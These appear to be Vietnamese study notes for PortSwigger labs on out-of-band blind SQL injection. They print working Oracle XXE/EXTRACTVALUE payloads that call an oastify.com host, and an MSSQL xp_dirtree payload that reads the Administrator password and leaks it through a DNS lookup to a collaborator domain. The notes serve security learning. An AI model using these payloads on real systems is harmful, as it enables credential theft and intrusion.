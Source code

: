 Ví dụ: https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band

`' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://bfuzt0sa9rrb5wjcdvy0p10offl69wxl.oastify.com/"> %remote;]>'),'/l') FROM dual--`

hoặc: `' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://bfuzt0sa9rrb5wjcdvy0p10offl69wxl.oastify.com/"> %remote;]>'),'/l') FROM dual)--`

Sau khi xác nhận cách kích hoạt các tương tác ngoài băng tần, bạn có thể sử dụng kênh ngoài băng tần để lọc dữ liệu khỏi ứng dụng dễ bị tấn công. Ví dụ:\
`'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`\
Đầu vào này sẽ đọc mật khẩu cho người dùng Administrator, nối thêm vào Collaborator subdomain và kích hoạt tra cứu DNS. Tra cứu này cho phép bạn xem mật khẩu đã chụp:\
`S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net`\
Các kỹ thuật ngoài băng tần (OAST) là một cách mạnh mẽ để phát hiện và khai thác việc chèn SQL mù, nhờ khả năng thành công cao và khả năng lọc trực tiếp dữ liệu trong kênh ngoài băng tần. Vì lý do này, kỹ thuật OAST thường được ưu tiên hơn ngay cả trong những tình huống mà các kỹ thuật khai thác mù quáng khác hoạt động hiệu quả.

Ví dụ: https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration

Kiểm tra xem có bắn gói tin ra DNS được ko: 
Payload: `'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//bfuzt0sa9rrb5wjcdvy0p10offl69wxl.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--`\
![alt text](image-48.png)